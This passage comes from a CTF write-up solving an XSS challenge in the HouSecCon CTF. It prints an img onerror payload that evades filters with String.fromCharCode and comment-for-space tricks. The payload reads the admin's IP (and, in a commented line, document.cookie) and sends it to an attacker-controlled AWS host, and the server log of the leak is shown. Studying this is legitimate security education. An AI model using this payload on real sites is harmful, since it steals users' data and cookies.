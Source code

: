 ```javascript
// hiddenField.setAttribute('value, document.cookie);
hiddenField.setAttribute(String.fromCharCode(118, 97, 108, 117, 101),document.getElementById(String.fromCharCode(105,112))[String.fromCharCode(118,97,108,117,101)]);

form.appendChild(hiddenField);
document.body.appendChild(form);
form.submit();
```

Sending this gives a gorgeous non-flag:

```
You are not authorized to view messages from CTARoot.
```

I must admit. I was a bit stumped for a minute, but one must move forward. I made a guess that the `ctaroot` interface would be the same as mine and that the DOM would also be similar.

The next idea would be to try and pull the IP from the `ctaroot` DOM and then ship that instead of the cookie. The last thing would be to send this to an AWS instance instead of to `send`. Ultimately, this worked!

```html
<img/src="./"onerror="BELOW JAVASCRIPT"/>
```

```javascript
// Create a new form with the IP from the DOM
// Submit the form to a known AWS instance
var/**/form/**/=/**/document.createElement('form');
form.setAttribute('method','get');
form.setAttribute('action','http://my.aws.instance/send');
var/**/hiddenField=document.createElement('input');
hiddenField.setAttribute('type','hidden');
hiddenField.setAttribute('name','to');
// 'value' is stripped by server
hiddenField.setAttribute(String.fromCharCode(118, 97, 108, 117, 101),'admin');
form.appendChild(hiddenField);
var/**/hiddenField=document.createElement('input');
hiddenField.setAttribute('type','hidden');
hiddenField.setAttribute('name','body');
// 'value' is stripped by server
hiddenField.setAttribute(String.fromCharCode(118, 97, 108, 117, 101),document.getElementById(String.fromCharCode(105,112))[String.fromCharCode(118,97,108,117,101)]);
// 'ip' is stripped by server
// 'value' is stripped by server

form.appendChild(hiddenField);
document.body.appendChild(form);
form.submit();
```

```
# On the AWS instance
python -m SimpleHTTPServer 80

# Time passes
65.128.52.100 - - [31/Aug/2015 20:40:24] "GET /send?to=admin&body=+10.201.40.147 HTTP/1.1" 404 -
``` 

Submitting this IP, finishes the August edition of HouSecCon CTF.

Here's to hoping for binary exploitation for the September edition ;-)
